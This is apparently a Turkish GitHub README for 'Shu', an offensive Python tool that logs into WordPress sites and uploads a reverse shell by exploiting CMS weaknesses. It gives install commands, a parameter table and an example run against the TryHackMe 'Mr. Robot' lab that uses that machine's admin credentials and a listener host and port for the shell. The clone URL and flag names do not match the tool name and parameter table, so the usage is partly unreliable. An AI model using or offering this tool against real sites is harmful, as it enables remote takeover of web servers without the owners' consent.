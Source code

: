 # Shu
Shu, hazır içerik yönetim sistemlerinin zayıflıklarından yararlanarak reverse shell yükleyen bir programdır.

## Programın indirilmesi ve kurulması

```
git clone https://github.com/Narisca/Vector/
cd Vector
pip3 install -r requirements.txt
```

bu komutları kullanarak programı indirip kurduktan sonra `python3 shu.py --help` komutunu kullanarak programı nasıl çalıştırabileceğinizi öğrenebilirsiniz.

![4](https://github.com/Narisca/Shu/assets/165813191/0efbd39a-d976-461d-ba17-b329aa65b53f)

## Örnek kullanm

Örnek olması amacıyla tryhackme.com platformunda bulunan mr.robot makinesi üzerinde deneyeceğim.

```
python3 shu.py --target http://10.10.236.255/wp-login.php --username elliot --password ER28-0652 --local-host 10.9.0.25 --local-port 4444 --plugin wordpress
```

![3](https://github.com/Narisca/Shu/assets/165813191/9a0ddbf2-1965-4322-affb-a1086365f3ce)

## Parametreler

```
--target-url,  -t    : Hedef sitenin giriş sayfasını belirtmenizi sağlar.
--plugins,     -x    : Hedef sitenin içerik yönetim sistemini belirtmenizi sağlar..
--username,    -u    : Kullanıcı adını belirtmenizi sağlar.
--password,    -p    : Kullanıcı şifresini belirtmenizi sağlar.
--local-host,  -L    : Yerel ağ adresinizi belirtmenizi sağlar.
--local-port,  -P    : Dinlenilen port'u berlirtmenizi sağlar.
```

## Kullanılabilir hazır içerik yönetim sistemleri
- wordpress
